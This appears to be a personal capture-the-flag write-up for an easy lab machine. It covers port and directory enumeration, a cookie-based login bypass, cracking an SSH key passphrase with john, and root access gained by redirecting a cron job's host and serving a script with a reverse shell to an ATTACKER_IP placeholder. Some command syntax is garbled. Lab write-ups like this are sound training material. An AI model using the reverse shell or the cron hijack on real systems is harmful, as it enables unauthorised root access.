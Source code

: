 - - - 
created : 17-07-2025 

Tags : #easy  
- - - 
# Objective

It's a [CTF](../../3%20-%20Tags/Hacking%20Concepts/CTF.md) so we catch them all.

# Recon
## Nmap

We can use [Nmap](../../3%20-%20Tags/Hacking%20Tools/Nmap.md) to scan the target :

```
    22/tcp open ssh
    80/tcp open http
```

# Enumeration
## Gobuster

Now we can use [Gobuster](../../3%20-%20Tags/Hacking%20Tools/Gobuster.md) to start [Enumeration](../../3%20-%20Tags/Hacking%20Concepts/Enumeration.md) :

```
    /admin
    /aboutus
```

visiting the /admin directory we find the login page for admins and in the /aboutus we find some names

- Ninja - Lead Developer
- Pars - Shibe Enthusiast and Emotional Support Animal Manager
- Szymex - Head Of Security
- Bee - Chief Drinking Water Coordinator
- MuirlandOracle - Cryptography Consultant

then we can look at the download of the Source code (go), we find another name (Steve) but nothing interesting

about, what is interesting here is the request for the name of the **login Cookie.**

# Exploit

For the [Exploit](../../3%20-%20Tags/Hacking%20Concepts/Exploit.md) we have to Bypass login [Cookies](../../3%20-%20Tags/Hacking%20Concepts/Cookies.md) and we see in the [Source Code](../../3%20-%20Tags/Hacking%20Concepts/Source%20Code.md) that we need to modify the parameter name=SessionToken to bypass login credentials access, we can do it from our [Developer tools](../../3%20-%20Tags/Hacking%20Concepts/Developer%20tools.md) on browser and just set the cookie name to \*\*==SessionToken==\*\* reloading the page we have access and find the **id_rca** of James.

## Ssh2John

we can use [Ssh2john](../../3%20-%20Tags/Hacking%20Tools/Ssh2john.md) `ssh2john id_rsa > jamhash` and `john jamhash --wordlist=/usr/share/wordlists/rockyou.txt`  and find <span style="color: rgb(45, 194, 107);">james13</span>

## SSH

we need to make the  [SSH](../../3%20-%20Tags/Hacking%20Concepts/SSH.md) key executable :  `chmod 600 id_rsa` than we can `ssh james id_rsa p: james13`  and `cat user.txt`

# Privilege Escalation

For the [Privilege Escalation](../../3%20-%20Tags/Hacking%20Concepts/Privilege%20Escalation.md) we  `cat etc/crontab`  and we find **buildscript.sh** [Bash](../../3%20-%20Tags/Hacking%20Concepts/Bash.md) but cant modify it, we’ll need to find a way to put in some custom code to run as root .

we can `cat etc/hosts` and we can edit overpass.thm pointing to our[IP address](../../3%20-%20Tags/Hacking%20Concepts/IP%20address.md) using [Nano](../../3%20-%20Tags/Hacking%20Tools/Nano.md) 

## Create the BuildScript  

```
              mkdir -p downloads/src in attacker machine ;
              cd downloads/src ;
              bash -i >& /dev/tcp/(ATTACKER_IP)/8080 0>&1  
              chmod +x buildscript.sh
```

then we create a [Server](../../3%20-%20Tags/Hacking%20Concepts/Server.md) : `python3 -m http.server 80`  and open listener : `nc -lvpn 8080`

we will wait until it runs our script and then we’ll gain root access where we can find the flag as the root user in the root.txt file.

Pwned !!
